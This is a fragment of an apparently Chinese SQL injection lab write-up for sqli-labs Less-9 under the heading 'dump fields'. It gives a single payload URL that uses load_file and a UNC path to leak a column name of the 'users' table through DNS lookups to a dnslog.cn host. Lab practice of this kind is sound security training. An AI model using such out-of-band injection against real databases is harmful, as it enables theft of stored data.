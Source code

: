 <img src="%E6%A9%99%E5%AD%90%E7%A7%91%E6%8A%80.assets/image-20230606162446065.png" alt="image-20230606162446065" style="zoom: 50%;" />

#### 爆字段

```
http://127.0.0.1/sqli-labs-master/Less-9/?id=1' and (select load_file(concat("//",(select column_name from information_schema.columns where table_schema=database() and table_name='users' limit 2,1),".ljr4uu.dnslog.cn/benen")))%23
```
